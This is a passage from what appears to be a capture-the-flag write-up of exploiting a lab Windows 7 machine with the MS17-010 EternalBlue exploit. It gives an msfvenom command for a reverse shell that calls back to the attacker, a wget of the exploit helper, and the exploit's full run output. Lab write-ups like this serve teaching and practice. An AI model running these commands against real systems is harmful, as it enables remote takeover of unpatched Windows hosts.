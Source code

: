 {{< highlight html >}}
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
{{< /highlight >}}

For point **2**, I will create a **reverse shell** with `msfvenom` in the current directory:

{{< highlight html >}}
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f exe > ./shell.exe
{{< /highlight >}}

At this point I have to edit the exploit file. There are plenty of resources on the internet explaining how to do that. One good resource is this one:
> https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/

Substantially, what I am doing is enabling a function named **service_exec()** that will connect to the target and upload the reverse shell I created. After that, It will try to execute it.

If everything goes well, I will have a connection back from the target!

At this point I have to set up a listener on my machine and launch the exploit which will connect back to me:

{{< highlight html >}}
python 42315.py 10.10.10.40

Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
No transaction struct in leak data
leak failed... try again
CONNECTION: 0xfffffa8001f4f170
SESSION: 0xfffff8a001fb96a0
FLINK: 0xfffff8a0029645f0
InParam: 0xfffff8a00120b15c
MID: 0x2405
unexpected alignment, diff: 0x17585f0
leak failed... try again
CONNECTION: 0xfffffa8001f4f170
SESSION: 0xfffff8a001fb96a0
FLINK: 0xfffff8a0026b0048
InParam: 0xfffff8a00121715c
MID: 0x2402
unexpected alignment, diff: 0x1498048
leak failed... try again
CONNECTION: 0xfffffa8001f4f170
SESSION: 0xfffff8a001fb96a0
FLINK: 0xfffff8a001229088
InParam: 0xfffff8a00122315c
MID: 0x2503
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\shell.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service MYBp.....
Starting service MYBp.....
The NETBIOS connection with the remote host timed out.
Removing service MYBp.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
{{< /highlight >}}
